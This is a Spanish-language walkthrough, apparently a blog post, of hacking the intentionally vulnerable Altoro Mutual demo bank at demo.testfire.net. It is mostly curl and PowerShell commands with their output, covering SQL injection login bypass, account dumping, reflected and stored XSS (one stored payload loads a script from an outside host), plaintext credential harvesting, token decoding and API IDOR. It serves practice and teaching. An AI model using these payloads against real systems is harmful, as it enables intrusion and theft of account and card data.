









por 3ternalhack111 · 16 octubre 2026

## el objetivo

demo.testfire.net. Es Altoro Mutual, el banco de mentira que HCL y IBM usan para demostrar su escaner. Un Tomcat 7.0.92 detras de Apache-Coyote y una app JSP llena de agujeros a proposito. Ideal para practicar sin miedo a romper nada.

## reconocimiento

Saco los formularios del login y del buscador para ver por donde entrar.

```diff
- curl.exe -s http://demo.testfire.net/login.jsp | Select-String "<form|<input|<title"
+ <title>Altoro Mutual</title>
+ <form action="doLogin" method="post" name="login" id="login">
+ <input type="text" id="uid" name="uid" value="">
+ <input type="password" id="passw" name="passw">
+ <input type="submit" name="btnSubmit" value="Login">
```



Y un barrido de rutas para ver que hay vivo.

```diff
- foreach ($p in @("/admin/","/bank/main.jsp","/swagger","/robots.txt")) { ... }
+ 302  /admin/
+ 302  /bank/main.jsp
+ 302  /swagger
+ 404  /robots.txt
```

Ese `/swagger` me lo apunto, que luego da juego.

## el login se rompe con una comilla

Pruebo las tipicas y ninguna entra. Todas devuelven el 302 de vuelta al login.

```diff
- curl.exe -si -X POST http://demo.testfire.net/doLogin -d "uid=admin&passw=admin"
+ HTTP/1.1 302 Found
+ Location: login.jsp
```

Pero con el comentario de SQL entra directo, sin contraseña.

```diff
- curl.exe -si -X POST http://demo.testfire.net/doLogin -d "uid=admin'--&passw=x"
+ HTTP/1.1 302 Found
+ Location: /bank/main.jsp
```



Y confirmo que soy el admin.

```diff
- curl.exe -s -b cjT.txt "http://demo.testfire.net/bank/main.jsp" | Select-String "<title>|Hello"
+ <h1>Hello Admin User
+ Welcome to Altoro Mutual Online.
```

## la cookie lo cuenta todo

Al loguearme el servidor me manda una cookie llamada `AltoroAccounts` que parece un token. En realidad es la lista de cuentas del usuario en base64.

```diff
- $val = [regex]::Match($resp, 'AltoroAccounts="?([^;"]+)"?').Groups[1].Value.Trim([char]34,[char]13,[char]10)
- [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($val))
+ 800000~Corporate~-164.0|800001~Checking~-9.9E11|800009~Checking~4.89E8
```



Con el `OR 1=1` me traigo todas las del banco.

```diff
- curl.exe -s -D h.txt -o NUL -X POST http://demo.testfire.net/doLogin -d "uid=admin' OR '1'='1&passw=x"
- "cuentas: $($cuentas.Count)"
+ cuentas: 65
```



65 cuentas, con sus numeros, sus tipos y sus saldos. Y dos tarjetas de credito con el PAN entero, que no deberia ir en una cookie.

## peleandome con el base64

Esto me costo tres intentos, y lo dejo escrito porque a alguien le pasara igual. El `FromBase64String` petaba.

```diff
- [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($raw))
+ La entrada no es una cadena Base 64 válida porque contiene un carácter que no es Base 64
```

El problema era que `Select-String` me devolvia varias lineas y me estaba llevando el `;` del final de la cookie. Se arregla limpiando los caracteres raros y rellenando el padding.

```diff
- $val = ($val -replace '[^A-Za-z0-9+/=]','')
- while ($val.Length % 4) { $val += '=' }
+ len = 2576   mod4 = 0
```

## xss en el buscador

El buscador escupe lo que le mandas sin escapar. Peeero hay que codificar los `<` y los `>`, si no devuelve un fichero de cero bytes.

```diff
- curl.exe -s "http://demo.testfire.net/search.jsp?query=<script>alert(1)</script>" -o s.html
- (Get-Item s.html).Length
+ 0
```

Codificado si sale.

```diff
- curl.exe -s "http://demo.testfire.net/search.jsp?query=%3Cscript%3Ealert(1)%3C/script%3E" | Select-String "alert"
+ <script>alert(1)</script>
```



## xss almacenado en el nombre de la cuenta

Esto es mas bonito. El campo `name` de la cuenta se guarda tal cual y luego se pinta sin escapar en el desplegable del banco. Meti cuentas con el nombre hecho un script y ahi se quedaron.

```diff
- curl.exe -s -b cjT.txt "http://demo.testfire.net/bank/main.jsp" | Select-String "<script>document.title"
+ <option value="800031" >800031 <script>document.title=String(2)</script></option>
+ <option value="800035" >800035 <script>document.title=String("zq7k2m")</script></option>
+ <option value="800042" >800042 <script src=//q7x2k9m4.beacon.invalid/x.js></script></option>
+ <option value="800044" >800044 <script src=//127.0.0.1:8125/a.js></script></option>
```



Hay nombres que vienen de otros que pasaron por aqui antes, con sus propios scripts y sus dominios. Es un banco de pruebas compartido y se nota.

## la contraseña del admin en un comentario

Voy a `/admin/login.jsp` y ahi esta. Alguien dejo la contraseña en un comentario HTML y nunca la quito.

```diff
- curl.exe -si -b cjT.txt -c cjT.txt -X POST http://demo.testfire.net/admin/doAdminLogin -d "password=Altoro1234"
+ HTTP/1.1 302 Found
+ Location: /admin/admin.jsp
```



## el panel suelta usuarios y contraseñas

Dentro, el `admin.jsp` lista los usuarios en un `value` con el formato `usuario:contraseña:rol`. Sin hashear, a la vista.

```diff
- curl.exe -s -b cjT.txt "http://demo.testfire.net/admin/admin.jsp" | Select-String "option value"
+ <option value="pd2_13jsmith:demo1234:user">pd2_13jsmith:demo1234:user</option>
+ <option value="pd2_12jdoe:Hacked123!:user">pd2_12jdoe:Hacked123!:user</option>
+ <option value="pdata2attadmin:P@ssw0rd123:user">pdata2attadmin:P@ssw0rd123:user</option>
```

## la cadena de credenciales

De todos esos, `jsmith:demo1234` sigue vivo. Entro y soy John Smith.

```diff
- curl.exe -s -c cjJ.txt -o NUL -X POST http://demo.testfire.net/doLogin -d "uid=jsmith&passw=demo1234"
- curl.exe -s -b cjJ.txt "http://demo.testfire.net/bank/main.jsp" | Select-String "Hello"
+ <h1>Hello John Smith
```

## la api escondida

Aqui vuelvo al `/swagger` del principio. Hay una API REST documentada, con login propio.

```diff
- curl.exe -si -X POST http://demo.testfire.net/api/login -H "Content-Type: application/json" --data-binary "@api.json"
+ HTTP/1.1 200 OK
+ {"Authorization":"YW5OdGFYUm86WkdWdGJ6RXlNelE9OnI/axEhKWI=","success":"jsmith is now logged in"}
```



## el token lleva la contraseña dentro

Ese token parece un JWT pero no lo es. Son tres campos en base64 separados por dos puntos, y el segundo es la contraseña.

```diff
- [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("YW5OdGFYUm86WkdWdGJ6RXlNelE9OnI/axEhKWI="))
+ anNtaXRo:ZGVtbzEyMzQ=:r?k!)b
```

Y una vuelta mas de decodificacion.

```diff
- [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("anNtaXRo"))
+ jsmith
- [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("ZGVtbzEyMzQ="))
+ demo1234
```

Intente forjar uno con `admin` y no cuela, porque el tercer campo es aleatorio y cambia en cada login.

```diff
- FALSO = WVdSdGFXND06WkdWdGJ6RXlNelE9OnI/ayEpYg==
+ {"error":"Please log in first"}
```

## idor en la api

Con el token valido pido cuentas que no son mias y me las da todas.

```diff
- curl.exe -s "http://demo.testfire.net/api/account/800031" -H "Authorization: Bearer $t"
+ {"accountId":"800031","balance":"$0.00","credits":[...],"debits":[...]}
```



Prové con 800000, 800031, 800033, 800042 y 800044 y todas responden con datos que no deberia ver jsmith.

## lo que parecia idor y no lo era

En `transaction.jsp` pase el parametro `account` con distintos valores y siempre salian las mismas 100 filas. Cante el IDOR demasiado rapido.

```diff
- foreach ($a in @(800000,800002,800003)) { curl.exe -s -b cjJ.txt ".../transaction.jsp?account=$a" }
+ === pedido: 800000
+ <tr><td>17003</td><td>...</td><td>800003</td><td>Deposit</td><td>$100.00</td></tr>
+ === pedido: 800002
+ <tr><td>17003</td><td>...</td><td>800003</td><td>Deposit</td><td>$100.00</td></tr>
+ === pedido: 800003
+ <tr><td>17003</td><td>...</td><td>800003</td><td>Deposit</td><td>$100.00</td></tr>
```

El parametro se ignora y siempre saca lo mismo. En la API si funciona, en la web no.

## rutas internas por un error

Poniendo basura en el parametro `content` el servidor se raja y suelta la ruta interna.

```diff
- curl.exe -s "http://demo.testfire.net/index.jsp?content=noexiste.htm"
+ Failed due to The requested resource (/static/noexiste.htm) is not available
```

Y con `../../../../etc/passwd` se lleva un 500 con el stack de Jasper, que confirma el Tomcat y la version.

```diff
+ HTTP Status 500 - Internal Server Error
+ org.apache.jasper.JasperException: java.lang.NullPointerException
```

## cierre

Un banco de pruebas con agujeros a proposito, pero con lecciones que valen igual: SQLi en el login, secretos en una cookie, contraseñas en un comentario HTML, un panel de admin que lo canta todo y una API con IDOR. Y dos cosas que casi me la cuelan: el token que parecia forjable y el IDOR de `transaction.jsp` que no era.

hecho por 3ternalhack111
